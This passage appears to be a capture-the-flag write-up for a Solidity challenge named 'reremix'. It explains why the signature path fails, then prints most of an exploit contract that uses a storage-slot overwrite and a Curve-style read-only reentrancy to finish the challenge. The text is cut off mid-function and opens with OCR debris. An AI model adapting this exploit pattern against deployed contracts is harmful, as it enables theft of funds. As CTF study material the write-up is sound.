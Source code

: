 ```solidity
```

But we need a valid signature from this signer :

```solidity
    address constant private SIGNER = 0x886A1C4798d270902E490b488C4431F8870bCDE3;
```

In the constructor, it set this invalid signature as used :

```solidity
        uint8 v = 28;
        bytes32 r = hex"1337C0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DE1337";
        bytes32 s = hex"1337C0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DE1337";
        usedRedemptionCode[abi.encodePacked(r, s, v)] = true;
```

If, we try to do ecrecover with this invalid signature, we will get the signer address

It is using the openzeppelin ECDSA library, which checks for signature malleability and signature length, so we can't bypass the signature check to mint tokens there


But we have 1 ether, and we can just swap it to those tokens in the Equalizer with the `equalize()` function which is just the swap function

Then we can just do the curve read only reentrancy

### Exploit contract :

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import "../src/MusicRemixer.sol";

contract reremixExploit {
    MusicRemixer public musicRemixer;
    SampleEditor public sampleEditor;
    Equalizer public equalizer;
    FreqBand public inst;
    FreqBand public vocal;

    constructor(address _musicRemixer) payable {
        require(msg.value == 0.5 ether, "not 0.5 ether");
        musicRemixer = MusicRemixer(_musicRemixer);
        sampleEditor = musicRemixer.sampleEditor();
        equalizer = musicRemixer.equalizer();
        inst = FreqBand(equalizer.bands(1));
        vocal = FreqBand(equalizer.bands(2));
    }

    function start() public {
        sampleEditor.setTempo(233);
        sampleEditor.updateSettings(0x5ebfdad7f664a9716d511eafb9e88c2801a4ff53a3c9c8135d4439fb346b50bb + 4, type(uint256).max);
        sampleEditor.adjust();
        equalizer.equalize{value: 0.11 ether}(0, 1, 0.11 ether);
        equalizer.equalize{value: 0.11 ether}(0, 2, 0.11 ether);
        uint256[3] memory amounts = [uint(0.1 ether), uint(0.1 ether), uint(0.1 ether)];
        inst.approve(address(equalizer), amounts[1]);
        vocal.approve(address(equalizer), amounts[2]);
        uint256 lpAmount = equalizer.increaseVolume{value: 0.1 ether}(amounts);
        equalizer.decreaseVolume(lpAmount);
    }
    
    receive() external payable {
        musicRemixer.finish();
```